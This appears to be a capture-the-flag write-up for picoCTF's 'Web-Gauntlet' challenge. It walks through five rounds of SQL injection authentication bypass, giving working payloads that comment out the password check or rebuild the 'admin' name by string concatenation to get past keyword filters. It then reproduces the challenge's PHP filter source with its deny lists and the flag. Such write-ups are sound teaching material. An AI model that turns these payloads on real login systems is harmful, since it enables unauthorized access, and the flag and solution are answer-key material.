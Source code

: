 ```yaml
---
title: "Web-Gauntlet"
date: "2020-12-22"
author: "RealFakeAccount"
description: "https://play.picoctf.org/practice/challenge/88
---
```

Put any username and password and you can see the SQL query.

<http://jupiter.challenges.picoctf.org:19593/filter.php> tells us which words is banned.

*Notes:*

Here is some common way to comment in SQL:
1. #
2. --
3. //
4. /**/
5. ; %00

### Round 1

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or
```

For the detail of the banned "OR" method, see <https://owasp.org/www-community/attacks/SQL_Injection>

let's use another methods.

We can change the username into `admin' --`, so the original SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' --' AND password='a'
```

which comments out the password part.

### Round 2

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and like = --
```

Use ; to force break the query. 

Our username input is: `admin' ;`

and the SQL query becomes:

```sql
SELECT * FROM users WHERE username='admin' ;' AND password='a'
```

### Round 3


Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
   or and = like > < --
```

Note that Space is also in this filter. Use "View page Sourse" to see the space. 

So we can just erase the block in previous round: `admin';`, which gives us

```sql
SELECT * FROM users WHERE username='admin';' AND password='a'
```

### Round 4

They banned the `admin` now. Also, our `;` doess not work in this question.

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
or and = like > < -- admin
```

Luckly, SQL have some function to concatenate string: `CONCAT`, `+`, `||`

After a few trial, we find that `||` worked.

Our payload is: `ad'||'min'/*`

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

### Round 5

Here is the filter shown in <http://jupiter.challenges.picoctf.org:19593/filter.php>
```sql
 or and = like > < -- union admin```
```

Previous one still work.

```sql
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='a'
```

After finish all 5 rounds, we can finally see the filter php file:

```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?> 
```